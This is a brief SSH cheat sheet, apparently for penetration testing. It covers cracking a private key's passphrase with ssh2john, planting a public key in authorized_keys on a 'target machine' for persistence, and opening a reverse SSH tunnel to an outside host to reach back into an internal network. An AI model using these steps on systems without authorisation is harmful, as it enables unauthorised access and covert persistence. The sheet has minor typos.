# SSH

###

### Decrypt RSA file

```
ssh2john id_rsa
```

or you can user [sshng2john](https://raw.githubusercontent.com/stricture/hashstack-server-plugin-jtr/master/scrapers/sshng2john.py) which supports cracking into a format for [jumbo john](https://github.com/openwall/john) (john the ripper but for GPU)

```
pyhton sshng2john id_rsa
```

### Copy SSH public file

On your target machine:

```
echo "<your .ssh/key.pub>" > ~/.ssh/authorized_keys
```

### Reverse SSH tunnel

On the internal machine:

```
ssh -R 19999:localhost:22 leon@externalip.com
```

Creates listening tunnel on 19999

On the external machine:

```
ssh user@localhost -p19999
```

Connects to 19999 to ssh back to the start of the tunnel using the remote machine's username and password
